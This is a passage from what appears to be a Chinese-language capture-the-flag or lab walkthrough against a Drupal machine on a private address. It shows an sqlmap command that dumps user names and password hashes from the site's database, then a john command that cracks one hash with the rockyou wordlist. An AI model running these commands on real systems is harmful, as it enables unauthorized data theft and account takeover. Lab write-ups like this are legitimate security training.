 ## 使用sqlmap进行测试

因为已经知道数据库、表等，直接最终数据

```shell
sqlmap -u "http://192.168.10.12/?nid=1" -D d7db -T users -C name,pass --dump --batch
```

![](./pic-8/22.jpg)

## hash破解

把两组密码放置在文件中，使用`john`进行破解，破解出一个很快`turtle`

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![](./pic-8/23.jpg)

两个用户，一个密码，一个个进行测试，啧，突然想到这里忘了进行网站目录爆破了，就先访问`robots.txt`吧，有东西的话，也省的再扫描，好嘛，CMS路径时默认的，没有修改
